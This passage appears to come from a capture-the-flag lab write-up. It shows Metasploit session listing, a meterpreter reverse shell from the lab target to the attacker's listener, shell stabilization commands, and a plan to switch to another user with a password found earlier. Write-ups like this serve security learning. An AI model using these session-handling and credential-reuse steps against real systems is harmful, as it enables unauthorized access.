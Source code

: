 * Working with sessions

Now, in order to view the sessions, we can execute `sessions -l`:
```bash
msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information         Connection
  --  ----  ----                   -----------         ----------
  1         meterpreter x86/linux  yuri @ 10.10.11.79  10.10.16.49:1337 -> 10.10.11.79:53576 (10.10.11.79)

```

If we want to interact with the session, we can execute `sessions -i 1`:
```bash
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

Now, we can execute the command `shell` and achieve our shell!

![get shell](image-13.png) 

And now let's stabilize the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Next, we want the user flag. we can't find it in our dir, so it's probably in `eric` dir.
We can easily `su` to `eric` with his password, `america`, which we discoverd earlier.
